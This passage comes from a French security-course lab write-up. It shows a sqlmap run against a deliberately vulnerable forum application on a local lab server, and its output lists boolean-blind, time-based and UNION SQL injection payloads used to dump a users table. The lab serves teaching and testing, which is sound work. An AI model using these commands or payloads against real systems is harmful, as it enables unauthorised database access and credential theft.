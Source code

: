 - Utiliser un IPS type fail2ban.
- N'autoriser que les connexions en provenance du LAN

## EXERCICE 5 - Attaques sur des applications Web

- Installer l'application Forum Sécurité sur le serveur Web en vous appuyant sur les instructions présentes dans le fichier README.md.

- Mettez en évidence plusieurs failles de sécurité : 
  - Injection SQL

```
$ sqlmap -u http://192.168.34.201:8080/topics.php?id_forum=1 -p id_forum -D forum -T users --dump
        ___
       __H__                                                                                                       
 ___ ___[,]_____ ___ ___  {1.8.11#stable}                                                                          
|_ -| . ["]     | .'| . |                                                                                          
|___|_  ["]_|_|_|__,|  _|                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:50:41 /2025-03-04/

[09:50:41] [INFO] resuming back-end DBMS 'mysql' 
[09:50:41] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=7b5ac612ca2...3581f06aa3'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id_forum (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id_forum=(SELECT (CASE WHEN (9231=9231) THEN 1 ELSE (SELECT 1353 UNION SELECT 5270) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id_forum=1 AND (SELECT 1436 FROM (SELECT(SLEEP(5)))gUEC)

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: id_forum=1 UNION ALL SELECT CONCAT(0x716a787171,0x50765852767871455a696c7369545648557849744a6e66686873594c655759676f5555774e584641,0x7170766271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[09:50:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56, PHP, PHP 8.2.5
back-end DBMS: MySQL >= 5.0.12
[09:50:42] [INFO] fetching columns for table 'users' in database 'forum'
[09:50:42] [WARNING] reflective value(s) found and filtering out
[09:50:42] [INFO] fetching entries for table 'users' in database 'forum'
Database: forum
Table: users
[1 entry]
```